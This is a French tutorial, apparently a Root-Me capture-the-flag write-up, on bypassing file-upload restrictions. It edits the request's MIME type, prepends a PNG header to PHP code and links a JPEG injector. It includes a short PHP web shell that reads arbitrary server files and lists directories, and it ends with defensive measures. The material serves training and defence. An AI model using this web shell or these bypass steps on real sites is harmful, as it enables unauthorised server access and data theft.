





# File Upload 

Cette méthode d'intrution consite à modifier la requête Fetch d'import du fichier en modifiant les informations de ce dernier. Type ou encore Taille.

Important : Utiliser Firefox pour pouvoir lire, modifier et renvoyer les requête Fetch. Sinon des pluggings sont disponible pour Chrome.


1. Créer un fichier dans le language du serveur, ici Php, avec un script donnant accès à la lecture des information des contenues, lecture des fichiers, dossiers et déplacement dans le disque via une requête GET/

2. Lorsque vous êtes sur une page avec un formulaire d'import de fichier, importer une première fois ce fichier, qui ne sera pas accepté du fais de son type. Ici fichier php, alors que seul des images sont acceptées. 

3. Lancer l'inspecteur, et dans l'onglet réseau, retrouvé la requête d'import de ce dernier.


Clique droit + **Utiliser en tant que requête fetch dans la console.



Vous retrouverais la requet en bas à gauche de la console tel que : 
Location dans le corps de la requete **"body :"** le **nContent-Type: application/octet-stream**


Nous allons modifier le nContent-Type  appli... par **image/png**




[Voir le fichier Php](./example.php)

```php
<?php
    
    if(isset($_GET["f"])){
        highlight_file($_GET["f"]);
    } elseif(isset($_GET['f2'])) {
        echo nl2br(htmlspecialchars(file_get_contents($_GET['f2'])));
    } elseif(isset($_GET['d'])) {
        echo '<pre>'.print_r(glob($_GET['d']), true).'</pre>';
    }

// Fonction glob() EX: glob(*.txt) > recuperer tous les fichier texte


?>
```

### [File upload - Type MIME](https://www.root-me.org/fr/Challenges/Web-Serveur/File-upload-Type-MIME)




Dans cette exercice, une page nous permet d'acceder à tous les fichiers importés, donc on pourra retrouver le chemin de ce dernier via l'affichage.

```txt
http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/7991616974e2114edcbabce138af5363//example.php?
```

## Security Higth 


Différence en fichier plats et non plat

On peut convertir une image en zip et supprimer l'image du zip générer, les propriétés du zip resterons inchangées !

Ressource :

- [hexed.it](https://hexed.it/)
- [Liste de la liste des signatures des fichiers](https://en.wikipedia.org/wiki/List_of_file_signatures)

Entete type PNG en hexa = 89 50 4E 47 0D 0A 1A 0A

On créer un fichier avec en premier en rentrant l'entete dans les premier octect sur hexed.it, puis dans les octect suivant on colle notre code php.
On télécharge notre fichier.
On renomme notre fichier en .png

Autre ressources, voici un repository permettant de executer un fichier php a travers un fichier ayant une entete .jpeg

[Php Jpeg Injector](https://github.com/dlegs/php-jpeg-injector)

Protection :

Quand vous uploaded des images, toujours les laisser stocker en cache, puis lecture pixel par pixel, on recré l'image et puis on réécris l'image.

Autre solution

Dans le dossier de stockage des image, rendre impossible les executions de fichier.

Autre solution 2

Stocker sur des cloud exterieur qui ont leur propre algorythme de verification.

Pour les zip on est obliger de l'envoyer vers un anti-virus qui lui s'occupera de controler tous les octets et autre du fichier.
